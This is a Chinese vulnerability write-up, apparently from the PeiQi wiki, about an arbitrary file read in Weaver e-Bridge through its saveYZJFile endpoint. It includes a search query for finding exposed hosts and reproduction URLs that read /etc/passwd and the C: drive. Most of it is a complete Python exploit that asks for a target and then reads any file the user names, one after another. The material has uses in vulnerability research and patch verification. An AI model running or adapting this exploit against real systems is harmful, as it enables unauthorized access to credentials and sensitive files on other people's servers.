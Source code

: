 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

# 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 漏洞影响

```
泛微云桥 e-Bridge 2018-2019 多个版本
```

## 网络测绘

```
title="泛微云桥e-Bridge"
```

## 漏洞复现

分为两种，分别为 Windows 和 Linux

### Windows

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt)

![image-20220209104944042](/images/202202091049126.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![image-20220209104956250](/images/202202091049307.png)

### Linux

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt)

![image-20220209105016727](/images/202202091050824.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![image-20220209105027907](/images/202202091050974.png)

## 漏洞POC

注意读取Linux系统文件时，需要完整路径

例如读取根目录下的 1.txt

应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)
```

![image-20220209105047595](/images/202202091050654.png)

